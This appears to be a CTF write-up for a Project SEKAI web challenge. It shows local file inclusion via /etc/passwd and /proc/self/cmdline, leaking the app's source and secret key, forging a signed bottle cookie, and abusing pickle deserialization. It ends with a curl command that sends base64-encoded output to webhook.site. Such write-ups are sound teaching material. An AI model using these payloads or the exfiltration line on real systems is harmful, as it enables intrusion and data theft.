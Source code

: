 ## Skills involved: Local File Inclusion, enumeration and documentation reading, Insecure Object Deserialization

An old-wine-in-new-bottle challenge. While both local file inclusion and insecure object deserialization are basic web exploitation techniques, team Project SEKAI managed to create a plausible scenario for it.

## Solution:

Basic browsing will readily give you this URL, which strongly hints at Local File Inclusion. This is a vulnerability where files outside the application scope can be leaked.

![image](https://user-images.githubusercontent.com/114584910/193473934-677593fa-9418-4456-ad3d-d22ab8cb2033.png)

We can confirm it with a simple `/etc/passwd` payload:

![image](https://user-images.githubusercontent.com/114584910/193474129-03904dbf-d87b-4817-8777-e625f2fe8bb7.png)

Now we need to know what information we need to obtain, because we can't really read directory contents. We can look for web application source code since this is a usual *web* challenge - as compared to *box* techniques like looking for SSH creds or other unexposed services. ~I'm just not familiar with boxes~

We can either guess `/app/app.py` or use `/proc/self/cmdline` for the less guessy route (moved to Burp for better illustration):

![image](https://user-images.githubusercontent.com/114584910/193474449-b9b2e71c-da4f-4c8b-842d-ec8022455979.png)

Here is a list of interesting files from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#interesting-linux-files)


Anyway, the app source can be acquired:

```py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

Now we need to determine the next step, a natural guess would be to become admin and use the new endpoint `/sign`. And since we have LFI, we can obtain the key at `/app/config/secret.py`. I'm good with this educated guess.
`sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"`

There are 2 ways to craft the cookie: by *reading the documentation/program source* or *running bottle locally*. Since we already have all we need, why not just run the server to save time?

```py
from bottle import route, run, response
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
@route('/')
def home():
    e = {"name":"admin"}
    response.set_cookie("name", e, secret=sekai)
    return ''

run(host='localhost', port=8080)
```
![image](https://user-images.githubusercontent.com/114584910/193475056-26677d5c-766a-448d-bb42-d9eea7554b7a.png)

Then I was stuck, *terribly* stuck. It didn't occur to me that the cookie has a base64 encoded python pickle until I read the documentation as hinted by the organisers. ~Or you can learn to recognize the pickle pattern~

![image](https://user-images.githubusercontent.com/114584910/193475166-c6f4d30b-ea2d-4ae9-b70a-289ed40c4147.png)

For people that have some prior experience to CTFs, it's at this moment they realize they've got a jackpot:

![image](https://user-images.githubusercontent.com/114584910/193475243-6643e736-6aa3-4824-9e8f-3c3b4cdb5389.png)

We now have to find a way to achieve enumeration (gotta `ls` to my liking) and find the flag. The imminent issue is that there are no static folders for us to copy anything to read, and we don't have write access in general.
Thankfully it's possible to use online services like [webhook.site] to capture any data. With some research the payload can be:

```bash
curl -d `... | base64 -w0` https://webhook.site/...
```

Simple enumeration reveals the flag executable at `/flag`:

![image](https://user-images.githubusercontent.com/114584910/193475478-1918ddc4-8a8d-4ea2-aacf-cf39db0e1ff2.png)

The flag comes happily afterwards.
